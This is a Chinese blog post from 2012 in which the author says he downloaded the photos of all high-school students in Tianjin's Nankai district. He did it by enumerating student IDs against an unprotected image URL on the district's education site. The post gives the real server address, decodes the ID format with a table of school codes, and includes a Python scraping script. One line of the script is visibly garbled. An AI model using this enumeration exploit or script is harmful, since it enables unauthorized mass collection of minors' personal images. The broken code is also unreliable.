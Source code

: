 title:获得天津市南开区所有学生的头像
date:2012-09-02-03-57
---
只要是天津南开区的高中生都要上南开教务网上传照片和个人信息的，不过我上的时候感觉这个网站做得很差，还是ASP.NET做的。

看了一下发现图片没有做保护，可以直接被下载，只是URL有一些特征而已。于是我就把全区学生的照片全下载了


图像的地址是 http://113.31.29.215:8081/Default3.aspx?imageId=学籍号

（后来想要得到当今高一学生，发现他们还没有上传..）

![](800-1.jpeg)![](800-2.jpeg)![](800.jpeg)

学籍号的组成： 例如090504999这个学籍号，说明了他是09届，0504号学校的第999个学生。

其中3~6位号码与学校的关系是

    0501 南开中学
    0502 一零九中学
    0503 崇化中学
    0504 南大附中
    0505 二十五中学
    0506 第九中学
    0507 育红中学
    0508 天大附中
    0509 南大附中（原附中）
    0510 四十三中学
    0511 津英中学
    0512 南开艺术中学
    0513 天津中学
    0514 六十三中学
    0515 南开翔宇学校
    0518 南开光明中学
    0519 南开外国语中学
    0521 华泽高中
    0525 七十四中学（民办）
    0528 南开艺术中学（艺术班）
    0531 静文中学
    0532 崇化新疆班


例如说南大附中09届第999号学生的学籍号是090504999,而想要看他的照片的话，

URL是http://113.31.29.215:8081/Default3.aspx?imageId=090504999

当然,实际上这个人是不存在的.所以才没有图像. 为了解决大批量下载的问题，我编写了如下的Python代码：


    #coding:utf-8
    #beordle
    import urllib2,os
    schoolname='南开中学'
    school={};school[schoolname]=range(90501001,90501999)
    try :
      os.makedirs(schoolname)
    except: pass
    def tryview(url):
      for i in range(0,9):
        try:
          data=urllib2.urlopen(url).read()
          return data
        except:
          pass
      else:
        return 'DOCTYPE'
    x=0

    for i in school[schoolname]:
      print i
      pic='http://113.31.29.215:8081/Default3.aspx?imageId=0'+str(i)
      a=tryview(pic)
      a= a[:a.index('10:
        x+=1
        print '发现第'+str(x)+'个人'
        f=open(schoolname+'\\'+str(i)+".jpg","wb")
        f.write(a)
        f.close()


>后记：现在我已经毕业，这个是我刚高二时写的，不保证可用，可能网站已经挂了，就算没挂，也不是24小时开启的，只是每年特定的月份会开